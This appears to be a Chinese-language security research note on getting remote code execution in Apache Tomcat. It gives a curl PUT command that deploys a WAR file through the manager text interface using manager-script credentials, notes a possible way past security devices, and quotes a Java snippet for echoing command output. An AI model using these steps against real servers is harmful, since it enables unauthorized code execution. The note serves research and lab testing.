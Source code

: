利用研究
---

### Text Interface + WAR -> Post-RCE


**前言**

> Tomcat的一种鸡肋利用，需要获取`manager-script roles`角色用户的凭证。

  翻tomcat文档考古 -> `Deploy A New Application Archive (WAR) Remotely`

- https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html#Deploy_a_Directory_or_WAR_by_URL

![image](https://user-images.githubusercontent.com/55024146/177111478-ef51df0a-0a65-412b-8f75-85fbfce82d55.png)

重点：This command is executed by an HTTP `PUT` request.  也许可能大概可以用来绕安全设备??? 


**复现步骤**

0）测试环境
- apache-tomcat-8.5.55
- conf/tomcat-user.xml
  ```xml
  <?xml version='1.0' encoding='utf-8'?>
  <tomcat-users>
    <role rolename="manager-script"/>
    <user username="tomcat" password="tomcat" roles="manager-script"/>
  </tomcat-users>
  ```

1）制作WAR包
```
jar -cvf demo.war *
```

2）上传并部署WAR包
```
curl -u "tomcat:tomcat" -X PUT -T "demo.war" "http://10.10.10.1:8080/manager/text/deploy?path=/demo" --proxy "127.0.0.1:9090"
```

3）测试效果

![image](https://user-images.githubusercontent.com/55024146/177114675-61d9ecb3-c279-4b77-9d1d-26c083272c19.png)


PS: 测完发现@indishell1046在18年就在提出了这种[姿势](https://twitter.com/indishell1046/status/978704150014844928)，security "re-searcher"再一次在自己这儿实锤🤦‍♂️. 


### 回显

- https://blog.csdn.net/fnmsd/article/details/106890242

很强，适用于基于 servlet-api 的中间件做回显，稍作修改以适配 jakarta servlet-api 

```java
static {
        r = null;
        p = null;
        h =new java.util.HashSet<Object>();
        try {
            hsr = cl.loadClass("javax.servlet.http.HttpServletRequest");
            hsp = cl.loadClass("javax.servlet.http.HttpServletResponse");
        }catch (Exception e){
            try{
                hsr = cl.loadClass("jakarta.servlet.http.HttpServletRequest");
                hsp = cl.loadClass("jakarta.servlet.http.HttpServletResponse");
            }catch (Exception e1){
            }
```